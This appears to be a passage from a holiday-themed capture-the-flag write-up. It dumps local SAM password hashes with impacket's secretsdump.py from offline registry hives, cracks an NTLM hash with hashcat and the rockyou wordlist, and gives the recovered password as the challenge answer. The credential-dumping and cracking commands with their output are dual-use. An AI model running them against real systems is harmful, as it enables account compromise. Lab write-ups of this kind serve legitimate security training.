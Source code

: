 ```
python3 ./secretsdump.py -sam /path/to/SAM -security /path/to/SYSTEM -system /path/to/SYSTEM LOCAL -outputfile elfidence_hashes

[*] Target system bootKey: 0x1679d0a0bee2b5804325deeddb0ec9fe
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95199bba413194e567908de6220d677e:::
Elfin:1001:aad3b435b51404eeaad3b435b51404ee:529848fe56902d9595be4a608f9fbe89:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] Cleaning up...
```
- Now we can crack the hashes with **hashcat** and, fortunately, **rockyou.txt** works for this
```
hashcat -m 1000 /path/to/elfidence_hashes.sam /path/to/wordlists/rockyou.txt

529848fe56902d9595be4a608f9fbe89:Santaknowskungfu
```

### Answer: `Santaknowskungfu`

